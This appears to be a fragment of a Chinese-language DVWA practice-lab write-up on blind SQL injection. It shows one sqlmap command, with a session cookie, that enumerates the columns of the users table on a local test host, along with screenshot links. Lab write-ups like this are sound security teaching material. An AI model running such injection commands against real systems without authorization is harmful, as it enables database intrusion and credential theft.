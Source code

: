 ![image-20230805104005744](./DVWA.assets/image-20230805104005744.png)



爆破表的字段

```shell
sqlmap "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind/#" --cookie "security=medium; PHPSESSID=ejqjhrcjdf2em40du4bru9l96n" --data "id=1&Submit=Submit" -D dvwa -T users --columns --batch

```

![image-20230805104042082](./DVWA.assets/image-20230805104042082.png)